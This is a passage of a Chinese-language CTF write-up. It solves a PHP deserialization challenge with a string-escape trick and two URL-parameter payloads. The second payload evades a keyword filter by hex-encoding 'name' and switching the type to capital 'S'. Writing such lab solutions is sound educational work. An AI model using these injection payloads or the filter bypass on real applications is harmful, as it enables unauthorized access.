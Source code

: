 ```shell
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=A";s:7:"%00*%00pass";O:7:"topsolo":1:{s:7:"%00*%00name";O:7:"midsolo":2:{s:7:"%00*%00name";O:6:"jungle":1:{s:7:"%00*%00name";s:7:"Lee Sin";}}}s:8:"%00*%00admin";i:0;}
```



再次验证：

![image-20200824015133586](/images/强网杯2020部分WriteUp/2ba9f9a09960bbb04f8e3aded8f94ebf581bb01fbe0339d818d224fa127b43af.png " ")

注意我在本地把执行的命令改成了`ping`



执行成功之后尝试去`get flag`，先访问`Payload`，然后访问`play.php`，提示失败：

![image-20200824015317503](/images/强网杯2020部分WriteUp/5ed9ad5713c90f0f38d7436787b168098c7156f7465da380020d4056453be62b.png " ")

可以看到这里是在`check()`被拦了



再回头看`check()`，很简单的一个方法，就是判断反序列化数据中是否包含`name`，包含就退出。而在`Payload`中，的确是包含`name`的，因为`name`是其他类的成员属性，无法避免，所以在这里卡了很久，不知道咋绕过，最后问了下大佬，大佬说用 16进制代替字符串，也就是将`name`变成 16进制的格式`\6e\61\6d\65`，并且它的类型不能是小写的`s`，需改成大写的`S`，最后`Payload`就变成了：

```shell
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=A";s:7:"%00*%00pass";O:7:"topsolo":1:{S:7:"%00*%00\6e\61\6d\65";O:7:"midsolo":2:{S:7:"%00*%00\6e\61\6d\65";O:6:"jungle":1:{S:7:"%00*%00\6e\61\6d\65";s:7:"Lee Sin";}}}s:8:"%00*%00admin";i:0;}
```



最后访问之后得到`flag`：

![image-20200824020408604](/images/强网杯2020部分WriteUp/c4edf5d931901c9d6b8e9819bf01b09a8dd7a4f4ba6d01913da79d84501e2087.png " ")
